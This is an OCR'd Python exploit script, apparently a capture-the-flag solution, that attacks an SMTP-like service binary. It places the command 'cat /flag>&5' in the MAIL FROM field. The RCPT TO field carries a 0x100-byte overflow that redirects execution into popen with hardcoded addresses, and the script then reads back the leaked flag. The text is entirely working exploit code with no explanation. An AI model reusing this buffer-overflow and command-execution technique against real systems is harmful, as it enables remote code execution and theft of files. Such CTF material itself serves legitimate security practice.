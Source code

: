```py
  pause()
    
def Hello():
    r()
    sl("HELO")


def Mail_from(content):
    r()
    sl(b'MAIL FROM:'+content)

def Rcpt_to(content):
    r()
    sl(b'RCPT TO:'+content)

def Data():
    r()
    sl(b'DATA')


def Sender():
    r()
    sl('.\r\n')

a_str=0x0804B141
from_addr=0x0804d140
Hello()
payload=b"cat /flag>&5"
Mail_from(payload)
payload=b'a'*0x100+p32(from_addr+0x40)+b'a'*0xc+p32(elf.plt['popen'])+p32(0xdeadbeef)+p32(from_addr)+p32(elf.search(b"r\x00").__next__())
Rcpt_to(payload)
Data()
Sender()
ru("250 Ok\n")
flag=ru("\n")
leak("flag",flag)
itr()
```



